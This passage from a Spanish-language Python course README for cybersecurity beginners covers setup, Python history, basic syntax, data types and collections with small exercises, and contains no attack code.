<div align="center">


# Python 3 · De Cero a Hacker

**Masterclass de 5 horas para dar tus primeros pasos en Python, orientada a la ciberseguridad**

### 👤 Autor: [Yago Hansen](https://yagohansen.com/)

[](https://www.linkedin.com/in/yadox/)
[](https://twitter.com/yadox)
[](https://yagohansen.com/)


**[🗓️ Agenda](#agenda) · [🚀 Cómo empezar](#como-empezar) · [📂 Ejemplos](examples/README.md) · [🚩 Reto final](#reto-final)**

</div>

---


<p align="center"></p>

> [!IMPORTANT]
> Los ejemplos de redes y web de este curso son para **practicar en tu propio equipo (`127.0.0.1`) o en sistemas en los que tengas permiso**. Escanear o atacar sistemas ajenos sin autorización es delito.

<a id="agenda"></a>

## 🗓️ Agenda

| Bloque | Horario | Contenido |
|:---:|:---:|---|
| 1 | 0:00 – 0:30 | [Introducción](#introducción) y [primeros pasos](#primeros-pasos-y-sintaxis-básica) |
| 2 | 0:30 – 1:30 | [Estructuras de datos](#estructuras-de-datos): variables, cadenas, listas, diccionarios |
| 3 | 1:30 – 2:30 | [Condiciones y bucles](#condiciones-y-bucles) |
| ☕ | 2:30 – 2:40 | *Descanso* |
| 4 | 2:40 – 3:20 | [Funciones](#funciones) y [clases](#clases-y-objetos-opcional) |
| 5 | 3:20 – 4:00 | [Librerías](#instalar-importar-y-usar-librerías), [errores](#debugging), [argumentos](#uso-de-argumentos) y [archivos](#manejo-de-archivos) |
| 6 | 4:00 – 4:45 | [Ejemplos prácticos para hackers](#ejemplos-prácticos-de-python-para-hackers) |
| 7 | 4:45 – 5:00 | [Reto final](#reto-final) y [uso de la IA](#acerca-del-uso-de-la-ia) |

> [!TIP]
> Al final de cada bloque hay un **🏋️ ejercicio**. Intenta resolverlo antes de abrir la solución.

<a id="como-empezar"></a>

## 🚀 Cómo empezar

```bash
git clone https://github.com/yadox666/Python3_From_0_to_Hacker
cd Python3_From_0_to_Hacker/examples

python3 -m venv venv              # 1. Crea un entorno virtual
source venv/bin/activate          # 2. Actívalo (verás "(venv)" en el prompt)
pip install -r requirements.txt   # 3. Instala las librerías de los ejemplos
```

> [!NOTE]
> ¿Sin Linux a mano? En la página del repositorio pulsa **Code → [Codespaces](https://codespaces.new/yadox666/Python3_From_0_to_Hacker) → Create codespace** y tendrás un editor con Python en el navegador.

---

## Introducción

<p align="center"></p>

### Historia de Python
Python fue creado por Guido van Rossum, un programador holandés que trabajaba en el Centro para las Matemáticas y la Informática (CWI) en Ámsterdam. A finales de los años 80, Guido estaba trabajando en el sistema operativo distribuido Amoeba y necesitaba un lenguaje de scripting que fuera más potente que el shell de Unix pero más simple que C. Durante las vacaciones de Navidad de 1989, decidió crear un nuevo lenguaje de programación como un proyecto paralelo. El nombre "Python" no proviene del reptil, sino de la afición de Guido por el grupo de comediantes británicos "[Monty Python's Flying Circus](https://youtu.be/bHIsvZflIKE?t=134)". Guido quería un nombre corto, único y ligeramente misterioso, y siendo fan del programa de comedia británico, eligió Python.

La primera versión oficial, Python 0.9.0, fue lanzada en febrero de 1991 e incluía ya características fundamentales como clases con herencia, manejo de excepciones, funciones y los tipos de datos principales (list, dict, str). Python fue diseñado desde el principio con la filosofía de que el código debe ser legible y que debería haber una forma obvia de hacer las cosas, principios que se reflejaron en el famoso "Zen de Python". A lo largo de los años 90, Python ganó popularidad gradualmente en la comunidad científica y académica. En 2000, Python 2.0 introdujo importantes mejoras como listas por comprensión y un sistema de recolección de basura. Sin embargo, el cambio más significativo llegó en 2008 con Python 3.0, una versión que rompió la compatibilidad con Python 2 para corregir defectos fundamentales del diseño del lenguaje. Aunque la transición fue controvertida y lenta, Python 3 eventualmente se convirtió en el estándar, y el soporte para Python 2 finalizó oficialmente en enero de 2020. Hoy en día, Python es uno de los lenguajes de programación más populares del mundo, usado en desarrollo web, ciencia de datos, inteligencia artificial, automatización, y prácticamente cualquier campo de la tecnología.

### Evolución

| Año | Versión | Novedad |
|:---:|:---:|---|
| 1991 | 0.9.0 | Primera versión pública |
| 1994 | 1.0 | Primera versión "oficial" |
| 2000 | 2.0 | Listas por comprensión |
| 2008 | 3.0 | Rediseño del lenguaje (no compatible con Python 2) |
| 2020 | — | Fin del soporte de Python 2 |
| Hoy | 3.x | Mejoras continuas |

> [!NOTE]
> Prueba `import this` en la consola de Python para leer el **Zen de Python**, la filosofía del lenguaje.

### Pros y contras de Python

| ✅ Pros | ⚠️ Contras |
|---|---|
| Fácil y sencillo de leer | Lenguaje interpretado: más lento que C |
| Versátil y multipropósito | Mayor consumo de memoria |
| Librerías y frameworks para todo | La indentación es obligatoria |
| Gran comunidad y miles de ejemplos | Limitado en front-end y apps móviles |
| Portable: Linux, macOS y Windows | |

### De bash a Python

**Comparación básica: Bash vs Python**

```bash
# Bash
#!/bin/bash
echo "Hola desde Bash"
nombre="Juan"
echo "Hola $nombre"
```

```python
# Python equivalente
#!/usr/bin/env python3
print("Hola desde Python")
nombre = "Juan"
print(f"Hola {nombre}")
```

**Ejemplo: Listar archivos**

```bash
# Bash
ls -la
```

```python
# Python
import os
archivos = os.listdir('.')
for archivo in archivos:
    print(archivo)
```

### Ejemplos de utilidades de seguridad
- Programación y hacking en AWS. librería boto3
- Web scraping. librería beautifulsoup
- Emulación de navegador web. selenium
- Fuzzing de APIs
- Shellcode y shells remotos
- Ingeniería inversa
- La mayor parte de los exploits disponibles
- Explotación y análisis de redes. scapy
- Ciencia de datos con IA. tensorflow, pytorch, pandas
- Análisis forense. Análisis forense de archivos, análisis forense de red, etc.
- Diccionarios y fuerza bruta. pydictor, psudohash
- Obtención de vulnerabilidades usando bases de datos de vulnerabilidades

### Referencias
- [Black Hat Python, 2nd Edition](https://www.amazon.com/Black-Hat-Python-2nd-Programming/dp/1718501129). Justin Seitz & Tim Arnold
- [Python for Web Hackers: Mastering Black Hat Techniques](https://www.amazon.com/Python-Web-Hackers-Techniques-Cryptography-ebook/dp/B0D56ZV7KF). Jason Bourny
- [Python Scapy Dot11: Programación en Python para pentesters Wi-Fi](https://www.amazon.com/Python-Scapy-Dot11-Programacion-pentesters/dp/1542748704). Yago Hansen

## Primeros pasos y sintaxis básica

<p align="center"></p>

### Consola

La consola interactiva de Python te permite ejecutar código línea por línea.

```bash
# Abrir la consola de Python
$ python3

# Dentro de la consola
>>> print("Hola")
Hola
>>> 2 + 2
4
>>> nombre = "Ana"
>>> nombre
'Ana'
>>> exit()  # Para salir
```

### Buenas prácticas y normas básicas

#### Shebang
```python
#!/usr/bin/env python3
```

El *shebang* indica que el sistema debe usar Python 3 para ejecutar el archivo. Para utilizarlo:

```bash
chmod +x mi_script.py  # Solo hace falta una vez
./mi_script.py
```

Para abrir la consola interactiva, ejecuta `python3` sin indicar ningún archivo.

#### Comentarios
```python
# Comentario de línea

"""
Nombre del Script: mi_script.py
Descripción: Breve descripción de lo que hace el script.
Autor: Tu Nombre
Versión: 1.0
Fecha: AAAA-MM-DD
"""
```

#### Indentación

La indentación en Python es el uso de espacios al inicio de una línea para definir bloques de código. Python usa **4 espacios** por nivel (estándar PEP 8).

```python
# ✅ CORRECTO
def saludar():
    print("Hola")           # 4 espacios
    print("Bienvenido")     # 4 espacios

saludar()
```

```python
# ❌ ERROR - Sin indentación
def saludar():
print("Hola")              # IndentationError!
print("Bienvenido")
```

```python
# ✅ CORRECTO - Múltiples niveles
edad = 20
tiene_id = True

if edad >= 18:                              # Nivel 0
    print("Eres mayor de edad")             # Nivel 1: 4 espacios
    if tiene_id:                            # Nivel 1: 4 espacios
        print("Acceso permitido")           # Nivel 2: 8 espacios
    else:                                   # Nivel 1: 4 espacios
        print("Necesitas ID")               # Nivel 2: 8 espacios
else:                                       # Nivel 0
    print("Eres menor de edad")             # Nivel 1: 4 espacios
```

##### Reglas clave

- Usa **4 espacios** por nivel
- Sé **consistente** en todo el código
- **NO mezcles** tabs y espacios
- Evita más de 3-4 niveles de anidación

### Python IDE

Un **Python IDE** (Entorno de Desarrollo Integrado, por sus siglas en inglés) es una aplicación que proporciona todas las herramientas necesarias para **escribir, ejecutar, depurar y organizar código en Python** desde un solo lugar. Un buen IDE para Python suele incluir características como resaltado de sintaxis, autocompletado de código, ejecución directa de scripts, depuración paso a paso, manejo de proyectos y acceso integrado a la consola. Algunos ejemplos populares de IDEs para Python son **PyCharm**, **Visual Studio Code**, **Thonny** y **IDLE** (el editor oficial incluido con Python). Usar un IDE facilita mucho el trabajo del programador, especialmente cuando está aprendiendo o desarrollando proyectos más complejos.

| Editor | Ideal para |
|---|---|
| [Visual Studio Code](https://code.visualstudio.com/) | Uso general, con la extensión de Python (recomendado) |
| [Cursor](https://cursor.com/) | Igual que VS Code, con IA integrada |
| [PyCharm](https://www.jetbrains.com/pycharm/) | Proyectos grandes |
| [Thonny](https://thonny.org/) | Primerísimos pasos: muestra las variables paso a paso |

<details>
<summary><b>🏋️ Ejercicio 1 · Tu primer script</b></summary>

Crea un archivo `hola.py` con el shebang, un comentario con tu nombre y un `print` que muestre `Hola, hacker!`. Ejecútalo con `python3 hola.py` y después con `./hola.py`.

<details>
<summary>👀 Ver solución</summary>

```python
#!/usr/bin/env python3
# Autor: Tu Nombre
print("Hola, hacker!")
```

```bash
python3 hola.py
chmod +x hola.py   # Permiso de ejecución (solo la primera vez)
./hola.py
```

</details>
</details>

## Estructuras de datos

<p align="center"></p>

### Variables

<p align="center"></p>

> [!TIP]
> **🎮 Mini-reto 1:** ¿qué imprime `print(type("22"))`?
>
> <details><summary>🔓 Respuesta</summary>
>
> `<class 'str'>`. Las comillas lo convierten en texto, aunque parezca un número.
>
> </details>

Una variable es un **nombre que apunta a un valor**. Se crea con el símbolo `=` y puede apuntar a números, texto, listas y otros objetos.

```python
puerto = 22          # El nombre "puerto" apunta al entero 22
puerto = 443         # Ahora apunta a otro entero
```

Python no tiene constantes obligatorias. Por convenio, escribimos en mayúsculas los valores que no deberían cambiar: `MAX_INTENTOS = 3`.

**Tipos de Variables en Python:**

| Tipo | Ejemplo | Uso típico |
|---|---|---|
| `str` (cadena) | `"192.168.1.10"` | Texto: IPs, usuarios, URLs |
| `int` (entero) | `22` | Puertos, contadores |
| `float` (decimal) | `0.5` | Tiempos de espera |
| `bool` (booleano) | `True` | ¿Puerto abierto? |
| `None` | `None` | Todavía no hay valor |
| Colecciones | `[21, 22, 80]` | Listas, tuplas, conjuntos y diccionarios |

#### Cadenas de texto o strings

> [!TIP]
> **🎮 Mini-reto 2:** ¿qué imprime `print("Python"[1:4])`?
>
> <details><summary>🔓 Respuesta</summary>
>
> `yth`. El índice inicial se incluye, pero el índice final no.
>
> </details>

Pueden contener pequeñas o grandes cantidades de texto, además de caracteres especiales o de otros idiomas o páginas de código.

```python
mi_variable = "Hola Mundo!"
```

##### Print

Es una de las funciones más utilizadas y sirve para mostrar valores en pantalla. Puede imprimir cualquier tipo de variable.

```python
print("Hola Mundo")

nombre = "Ana"
edad = 25
print("Nombre:", nombre, "Edad:", edad)
```

<details>
<summary>Ver resultado</summary>

```text
Hola Mundo
Nombre: Ana Edad: 25
```

</details>

##### Uso de comillas y comillas dobles

Aquí tienes un ejemplo muy simple que muestra cómo usar comillas simples (' ') y comillas dobles (" ") en Python. Ambas comillas funcionan igual para definir cadenas de texto en Python. Puedes usar una u otra según te convenga, por ejemplo:

- Si tu texto contiene comillas dobles dentro: usa comillas simples afuera.
- Si contiene comillas simples dentro: usa comillas dobles afuera.

```python
nombre = 'Alice'
mensaje = "Hola, " + nombre + "!"
print(mensaje)
```

##### Formatos

En Python 3 resulta muy práctico usar el formato mediante uso de f-strings (recomendado - Python 3.6+)

```python
nombre = "María"
edad = 30
altura = 1.65

print(f"Hola, soy {nombre}")
print(f"Tengo {edad} años y mido {altura} metros")

precio = 100
descuento = 20
print(f"Precio final: {precio - descuento} €")
```

<details>
<summary>Ver resultado</summary>

```text
Hola, soy María
Tengo 30 años y mido 1.65 metros
Precio final: 80 €
```

</details>


<p align="center"></p>

Uso de índices: una cadena es una **secuencia de caracteres**. Por eso podemos acceder a sus caracteres mediante posiciones que empiezan en `0`. A diferencia de una lista, una cadena no se puede modificar después de crearla.

<div align="center">

| Carácter | `P` | `y` | `t` | `h` | `o` | `n` |
|---|:---:|:---:|:---:|:---:|:---:|:---:|
| **Índice positivo** | 0 | 1 | 2 | 3 | 4 | 5 |
| **Índice negativo** | -6 | -5 | -4 | -3 | -2 | -1 |

</div>

```python
texto = "Python"

print(texto[0])
print(texto[1])
print(texto[-1])
print(texto[-2])

print(texto[:3])
print(texto[3:])
print(texto[1:4])
print(texto[:-1])
```

<details>
<summary>Ver resultado</summary>

```text
'P'
'y'
'n'
'o'
'Pyt'
'hon'
'yth'
'Pytho'
```

</details>

Concatenación: Para concatenar cadenas de texto se puede utilizar el símbolo más "+" de forma general, aunque como ya hemos visto, resulta más práctico el uso del f-string.

```python
nombre = "Ana"
apellido = "García"
nombre_completo = nombre + " " + apellido
print(nombre_completo)

nombre = "Ana"
apellido = "García"
print(f"{nombre} {apellido}")

print("Hola " * 3)

edad = 25
mensaje = "Tengo " + str(edad) + " años"
print(mensaje)
```

<details>
<summary>Ver resultado</summary>

```text
Ana García
Ana García
Hola Hola Hola
Tengo 25 años
```

</details>

Unicode y caracteres especiales: En la mayoría de lenguajes de programación se permite el uso de caracteres especiales como el retorno de carro "\n", el tabulador "\t" para tabular columnas, así como el uso de caracteres no ASCII o unicode, además de caracteres de tipo binario o bits.

```python
mensaje = "Línea 1\nLínea 2\nLínea 3"
print(mensaje)

print("Nombre:\tJuan\nEdad:\t25")

print("Símbolos: ★ ♥ € ñ á")
```

<details>
<summary>Ver resultado</summary>

```text
Línea 1
Línea 2
Línea 3
Nombre:	Juan
Edad:	25
Símbolos: ★ ♥ € ñ á
```

</details>

##### User input

La función `input()` permite recibir datos del usuario durante la ejecución del programa.

```python
nombre = input("¿Cuál es tu nombre? ")
print(f"Hola, {nombre}!")
```

<details>
<summary>Ver resultado</summary>

```text
¿Cuál es tu nombre? Juan
Hola, Juan!
```

</details>

#### Alcance

- Local. Pare el uso dentro de una función o clase.
- Global. Para el uso general en cualquier función o clase

```python
# Variable global
nombre_global = "Soy global"

def mi_funcion():
    # Variable local
    nombre_local = "Soy local"
    print(nombre_global)  # Puedo acceder a la global
    print(nombre_local)   # Puedo acceder a la local

mi_funcion()
print(nombre_global)   # Funciona
print(nombre_local)    # ❌ Error: no existe fuera de la función
```

> [!NOTE]
> Este ejemplo usa una función (`def`), que veremos en detalle en el bloque de [Funciones](#funciones). Si quieres modificar una variable global desde dentro de una función, debes declararlo con `global nombre_global`.

#### Enteros

Los enteros son variables de tipo numérico entero, no decimal.

```python
edad = 10
print(type(edad))

temperatura = 10.2
print(type(temperatura))

hex_num = 0xA
print(hex_num)

oct_num = 0o12
print(oct_num)
```

<details>
<summary>Ver resultado</summary>

```text
<class 'int'>
<class 'float'>
10
10
```

</details>
- Entero (10)
- Float (10.2)
- Hexadecimal (0xA)
- Octal (0o12)

##### Operaciones matemáticas básicas

Python permite de forma genérica, sin el uso de librerías externas, realizar operaciones aritméticas simples. Para operaciones más avanzadas se utilizan librerias externas como "math" que incluye operaciones como: sqrt(), sin(), cos(), log(), pow().

```python
a = 10
b = 3

print(a + b)

print(a - b)

print(a * b)

print(a / b)

print(a // b)

print(a % b)

print(a ** b)
```

<details>
<summary>Ver resultado</summary>

```text
13
7
30
3.3333333333333335
3
1
1000
```

</details>

Uso de variables en operaciones:
```python
precio = 100
descuento = 20
precio_final = precio - descuento
print(f"El precio final es: ${precio_final}")

contador = 0
contador = contador + 1
contador += 1
print(contador)
```

<details>
<summary>Ver resultado</summary>

```text
El precio final es: $80
2
```

</details>

Ejemplo: Par o impar?
```python
numero = 17
if numero % 2 == 0:
    print(f"{numero} es par")
else:
    print(f"{numero} es impar")
```

<details>
<summary>Ver resultado</summary>

```text
17 es impar
```

</details>

#### Booleanos

Los booleanos o variables lógicas solo pueden valer `True` (verdadero) o `False` (falso) y se usan en cualquier situación donde solo hay dos opciones. En otros lenguajes se representan como `1` y `0`.

Ejemplo: Valores booleanos y comparaciones
```python
verdadero = True
falso = False

print(verdadero)
print(falso)

print(5 > 3)
print(5 < 3)
print(5 == 5)
print(5 != 3)
print(5 >= 5)
```

<details>
<summary>Ver resultado</summary>

```text
True
False
True
False
True
True
True
```

</details>

Ejemplo: Operadores lógicos
```python
print(True and True)
print(True and False)

print(True or False)
print(False or False)

print(not True)
print(not False)

edad = 20
tiene_licencia = True
puede_conducir = edad >= 18 and tiene_licencia
print(f"¿Puede conducir? {puede_conducir}")
```

<details>
<summary>Ver resultado</summary>

```text
True
False
True
False
False
True
True
```

</details>

#### Variables no definidas o None

En muchas ocasiones, una función u operación puede retornar un valor esperado o no hacerlo. Cuando no lo hace, puede retornar un valor nulo o no estar definida.

```python
vacio = None

def saludar():
    print("Hola!")

resultado = saludar()
print(resultado)
print(vacio)
```

<details>
<summary>Ver resultado</summary>

```text
Hola!
None
None
```

</details>

**¿Qué NO representa None?**
| Concepto | ¿Es igual a `None`? | Explicación |
|-----------|--------------------|--------------|
| `0` | ❌ No | `0` es un número entero. |
| `""` (cadena vacía) | ❌ No | Es una cadena con longitud 0. |
| `[]` (lista vacía) | ❌ No | Es una lista existente, pero vacía. |
| `False` | ❌ No | `None` no es lo mismo que falso, aunque ambos se evalúan como *Falsey* en condicionales. |

#### Métodos

Los métodos son funciones de gran utilidad que se aplican a objetos como cadenas, enteros, etc. Su uso es cotidiano y deben de conocerse ya que forman la base de cualquier lenguaje de programación.

Ejemplo: Métodos de cadenas
```python
texto = "Hola Mundo"

print(dir(texto))

print(texto.lower())

print(texto.upper())

print(texto.capitalize())

print(texto.title())

palabras = texto.split()
print(palabras)

email = "usuario@ejemplo.com"
usuario, dominio = email.split('@')
print(f"Usuario: {usuario}")
print(f"Dominio: {dominio}")

cadena = "123"
print(cadena.isascii() and cadena.isdigit())
```

<details>
<summary>Ver resultado</summary>

```text
[... métodos disponibles de str ...]
hola mundo
HOLA MUNDO
Hola mundo
Hola Mundo
['Hola', 'Mundo']
Usuario: usuario
Dominio: ejemplo.com
True
```

</details>

Ejemplo: Más métodos útiles
```python
frase = "  Python es genial  "

print(frase.strip())

print(frase.replace("genial", "increíble"))

print(frase.strip().startswith("Python"))

print("banana".count("a"))
```

<details>
<summary>Ver resultado</summary>

```text
Python es genial
  Python es increíble
True
3
```

</details>

---

### Colecciones

Las colecciones permiten guardar **varios valores en una sola variable**. Python tiene cuatro tipos principales:

| Colección | Sintaxis | ¿Ordenada? | ¿Modificable? | ¿Duplicados? | Ejemplo de uso |
|---|:---:|:---:|:---:|:---:|---|
| Lista `list` | `[ ]` | ✅ | ✅ | ✅ | Puertos a escanear |
| Tupla `tuple` | `( )` | ✅ | ❌ | ✅ | Coordenadas, `(ip, puerto)` |
| Conjunto `set` | `{1, 2}` / `set()` | ❌ | ✅ | ❌ | IPs únicas vistas en un log |
| Diccionario `dict` | `{clave: valor}` | ✅ | ✅ | Claves no | Servicio → puerto |

#### Listas o `list()`

> [!TIP]
> **🎮 Mini-reto 3:** ¿qué imprime este código?
>
> `puertos = [22, 80]`<br>
> `puertos.append(443)`<br>
> `print(puertos[-1])`
>
> <details><summary>🔓 Respuesta</summary>
>
> `443`. `append()` lo añade al final y el índice `-1` obtiene el último elemento.
>
> </details>

Una lista es un objeto que almacena multiples valores en un orden establecido. Esta lista de valores no es inmutable y puede modificarse, crecer o reducirse mediante diferentes operaciones.

```python
lista = [1, 3, 5, 7, 9]
print(lista)

mixta = [1, "texto", 3.14, True]
print(mixta)

vacia = []
```

<details>
<summary>Ver resultado</summary>

```text
[1, 3, 5, 7, 9]
[1, 'texto', 3.14, True]
```

</details>

Ejemplo: Acceder a elementos
```python
frutas = ["manzana", "banana", "cereza", "durazno"]

print(frutas[0])
print(frutas[2])
print(frutas[-1])

matriz = [
    [1, 2, 3],
    [4, 5, 6],
    [7, 8, 9]
]
print(matriz[0][0])
print(matriz[1][2])
```

<details>
<summary>Ver resultado</summary>

```text
manzana
cereza
durazno
1
6
```

</details>

Métodos de listas:
```python
numeros = [2, 1, 4, 3]

numeros.append(5)
print(numeros)

numeros.extend([7, 6])
print(numeros)

numeros.sort()
print(numeros)

numeros.sort(reverse=True)
print(numeros)

ultimo = numeros.pop()
print(ultimo)
print(numeros)

del numeros[0]
print(numeros)
```

<details>
<summary>Ver resultado</summary>

```text
[2, 1, 4, 3, 5]
[2, 1, 4, 3, 5, 7, 6]
[1, 2, 3, 4, 5, 6, 7]
[7, 6, 5, 4, 3, 2, 1]
1
[7, 6, 5, 4, 3, 2]
[6, 5, 4, 3, 2]
```

</details>

Índices de una lista:
```python
lista = [1, 3, 5, 7]
print(lista[0])
```

<details>
<summary>Ver resultado</summary>

```text
1
```

</details>

Ejemplo para convertir a csv una lista
```python
lista = [1, 3, 5, "pan"]
csv = ','.join(map(str, lista))
print(csv)
```

<details>
<summary>Ver resultado</summary>

```text
1,3,5,pan
```

</details>

#### Conjuntos o `set()`

Los conjuntos son colecciones sin orden fijo y sin elementos duplicados. Esto ayuda a mantener una lista libre de duplicados, por lo tanto con valores únicos.

```python
consonantes = set(['b', 'c', 'd', 'f','b'])
print(consonantes)

numeros = {1, 2, 3, 4, 5, 1}
print(numeros)
```

<details>
<summary>Ver resultado</summary>

```text
{'b', 'c', 'd', 'f'}
{1, 2, 3, 4, 5}

El orden de los elementos de un conjunto puede variar.
```

</details>

Ejemplo: Operaciones con conjuntos
```python
a = {1, 2, 3, 4}
b = {3, 4, 5, 6}

print(a | b)

print(a & b)

print(a - b)

a.add(7)
print(a)
```

<details>
<summary>Ver resultado</summary>

```text
{1, 2, 3, 4, 5, 6}
{3, 4}
{1, 2}
{1, 2, 3, 4, 7}
```

</details>

#### Tuplas o `tuple()`

Las tuplas son como listas pero **inmutables** (no se pueden modificar después de creadas).

```python
vocales = ("a", "e", "i", "o", "u")
print(vocales)

dias = "lunes", "martes", "miércoles"
print(dias)

print(vocales[0])
print(vocales[-1])
```

<details>
<summary>Ver resultado</summary>

```text
('a', 'e', 'i', 'o', 'u')
('lunes', 'martes', 'miércoles')
a
u
```

</details>

Ejemplo: ¿Por qué usar tuplas?
```python
coordenadas = (10, 20)
print(coordenadas)
```

<details>
<summary>Ver resultado</summary>

```text
(10, 20)
```

</details>

Ejemplo: Desempaquetar una tupla en varias variables
```python
destino = ("10.0.0.5", 443)

ip, puerto = destino
print(f"Conectando a {ip}:{puerto}")
```

<details>
<summary>Ver resultado</summary>

```text
Conectando a 10.0.0.5:443
```

</details>

> [!TIP]
> Así es justo como recibe la dirección la librería `socket`: `s.connect((ip, puerto))` usa una tupla.

#### Diccionarios o `dict()`

> [!TIP]
> **🎮 Mini-reto 4:** ¿qué devuelve `{"SSH": 22}.get("HTTPS", 443)`?
>
> <details><summary>🔓 Respuesta</summary>
>
> `443`. Como la clave `HTTPS` no existe, `get()` devuelve el valor predeterminado.
>
> </details>

Los diccionarios almacenan pares clave-valor. Son muy útiles para organizar datos relacionados entre si.

```python
services = {"FTP": 21, "SSH": 22, "SMTP": 25, "HTTP": 80}
print(services)

print(services['SSH'])
print(services['HTTP'])

services['HTTPS'] = 443
print(services)
```

<details>
<summary>Ver resultado</summary>

```text
{'FTP': 21, 'SSH': 22, 'SMTP': 25, 'HTTP': 80}
22
80
{'FTP': 21, 'SSH': 22, 'SMTP': 25, 'HTTP': 80, 'HTTPS': 443}
```

</details>

Ejemplo: Diccionario de información personal
```python
persona = {
    "nombre": "Juan",
    "edad": 30,
    "ciudad": "Madrid",
    "profesion": "Programador"
}

print(persona["nombre"])
print(persona["profesion"])

persona["edad"] = 31
print(persona["edad"])
```

<details>
<summary>Ver resultado</summary>

```text
Juan
Programador
31
```

</details>

**Métodos importantes:**

```python
services = {"FTP": 21, "SSH": 22, "HTTP": 80}

print(services.get("SSH"))
print(services.get("HTTPS", 443))

services2 = {"HTTPS": 443, "DNS": 53}
services.update(services2)
print(services)

puerto_ftp = services.pop("FTP")
print(puerto_ftp)
print(services)

del services["DNS"]
print(services)

services_temp = {"A": 1, "B": 2}
services_temp.clear()
print(services_temp)
```

<details>
<summary>Ver resultado</summary>

```text
22
443
{'FTP': 21, 'SSH': 22, 'HTTP': 80, 'HTTPS': 443, 'DNS': 53}
21
{'SSH': 22, 'HTTP': 80, 'HTTPS': 443, 'DNS': 53}
{'SSH': 22, 'HTTP': 80, 'HTTPS': 443}
{}
```

</details>

### Identificación y conversión de tipos

En muchos casos, recibimos un valor de una función desconocida o librería y debemos averiguar cual es el tipo de dato que nos está retornando. Para ello podemos usar la función "type".

La función `type()` te permite saber qué tipo de dato es una variable.

```python
numero = 42
print(type(numero))

decimal = 3.14
print(type(decimal))

texto = "Hola"
print(type(texto))

lista = [1, 2, 3]
print(type(lista))

diccionario = {"clave": "valor"}
print(type(diccionario))

booleano = True
print(type(booleano))
```

<details>
<summary>Ver resultado</summary>

```text
<class 'int'>
<class 'float'>
<class 'str'>
<class 'list'>
<class 'dict'>
<class 'bool'>
```

</details>

Métodos de conversión entre tipos:
```python
edad_str = "25"
edad_int = int(edad_str)
print(type(edad_int))
print(edad_int + 5)

numero_str = "3.14"
numero_float = float(numero_str)
print(numero_float * 2)

numero = 100
numero_str = str(numero)
mensaje = "El número es: " + numero_str
print(mensaje)

texto = "Python"
lista_letras = list(texto)
print(lista_letras)
```

<details>
<summary>Ver resultado</summary>

```text
<class 'int'>
30
6.28
El número es: 100
['P', 'y', 't', 'h', 'o', 'n']
```

</details>

> [!WARNING]
> `input()` **siempre devuelve una cadena**. Si pides un puerto, conviértelo: `puerto = int(input("Puerto: "))`.

<details>
<summary><b>🏋️ Ejercicio 2 · Ficha de un objetivo</b></summary>

1. Crea un diccionario `objetivo` con las claves `ip`, `hostname` y `puertos` (una lista con `22`, `80` y `443`).
2. Añade el puerto `8080` a la lista.
3. Muestra con un f-string: `Host srv01 (10.0.0.5) tiene 4 puertos abiertos`. Pista: `len()`.

<details>
<summary>👀 Ver solución</summary>

```python
objetivo = {
    "ip": "10.0.0.5",
    "hostname": "srv01",
    "puertos": [22, 80, 443],
}

objetivo["puertos"].append(8080)

print(f"Host {objetivo['hostname']} ({objetivo['ip']}) tiene {len(objetivo['puertos'])} puertos abiertos")
```

</details>
</details>

## Condiciones y bucles

<p align="center"></p>

